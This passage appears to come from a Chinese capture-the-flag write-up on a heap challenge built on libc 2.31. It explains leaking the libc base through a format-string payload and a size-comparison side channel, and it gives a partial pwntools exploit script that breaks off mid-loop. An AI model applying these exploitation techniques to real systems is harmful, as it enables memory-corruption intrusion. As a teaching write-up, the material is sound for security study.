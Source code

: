 ```c
      puts("No card here");
    }
  }
  else
  {
    puts("Invalid index");
  }
  return __readfsqword(0x28u) ^ v4;
}
```

libc版本是2.31,也就是说我们还是有malloc_hook可以用的.那么我们只需要设法泄露libc基址.但问题在于,这道题没有show函数...

那么我们的思路如下:

1. 通过snprintf,将栈上的libc地址打印到下一个chunk内的text_size
2. 使用edit修改下一个chunk,如果程序打印了"Too large",说明我们输入的size大于此时的size.否则说明我们输入的size小于等于此时的size.

为了节约时间,我们可以通过合理控制填充字符的数量,让libc地址逐位出现在size内.这样我们就可以以O(n)的效率完成libc地址的获取.

以下为脚本:

```python
from pwn import *
r=process("./pwn")

#context.log_level='debug'
def add_(index,size):
	r.recvuntil(">> ")
	r.sendline(b"1")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	r.recvuntil(b"Size: ")
	r.sendline(str(size))
	return
def del_(index):
	r.recvuntil(">> ")
	r.sendline(b"2")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	return
def edi_(index,size,text):
	r.recvuntil(">> ")
	r.sendline(b"3")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	r.recvuntil(b"New size of content: ")
	r.send(str(size))
	r.recvuntil(b"What do you want to say: ")
	r.send(text)
	return

def pay(index):
	return 'h'*0x13+'h'*index+'%'+str(45)+"$p"


def get_libc():
	pause()
	ch='0'
	index=0
	payload=""
	while True:
		ch='0'
		while True:
			
			edi_(0x0,pay(index),b"\x00")
```